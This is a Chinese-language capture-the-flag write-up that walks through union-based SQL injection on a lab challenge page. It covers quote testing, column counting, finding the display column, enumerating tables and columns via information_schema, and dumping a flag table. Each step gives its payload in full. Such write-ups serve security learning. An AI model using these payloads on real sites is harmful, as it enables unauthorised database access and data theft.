









<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->




发现并没有什么可用的，看到题目提示，直接访问

```
http://eci-2ze1snkmg1wia23zk99t.cloudeci1.ichunqiu.com/single.php
```





| 1                                                            | 判断注入点   |
| ------------------------------------------------------------ | ------------ |
| 2                                                            | 爆字段个数   |
| 3                                                            | 爆显位位置   |
| 4                                                            | 爆数据库名   |
| 5                                                            | 爆数据库表名 |
| 6                                                            | 爆数据库列名 |
| 7                                                            | 爆数据库数据 |
| 用1=1和and 1=2测试，发现页面正常，排除数字型。测试到3'发现报错 |              |
|              |              |
| 根据报错信息可知，单引号闭合，构造playload                   |              |

```
id=3'--+
```

首先爆字段个数，注入语句，发现到10时报错，显示位数为9

```
id=3' order by 9--+
```





爆显位位置，注入语句为

```
id=-3' union select 1,2,3,4,5,6,7,8,9--+
```




4可以注入，语句

```
id=-3' union select 1,2,3,database(),5,6,7,8,9--+
```




发现数据库名称为ctf，接下来爆破库表名

```
id=-3' union select 1,2,3,group_concat(table_name),5,6,7,8,9 from information_schema.tables where table_schema=database()--+
```




得到数据库表名

```
titles,page_hits,membership_userpermissions,membership_groups,blog_categories,membership_userrecords,membership_users,editors_choice,blogs,links,flag,banner_posts,membership_grouppermissions,visitor_info
```

关键词为flag，爆破列名，注入语句为

```
id=-3' union select 1,2,3,group_concat(column_name),5,6,7,8,9 from information_schema.columns where table_schema=database() and table_name="flag"--+
```




爆破数据库数据，注入语句为

```
id=-3' union select 1,2,3,group_concat(flag),5,6,7,8,9 from flag --+
```




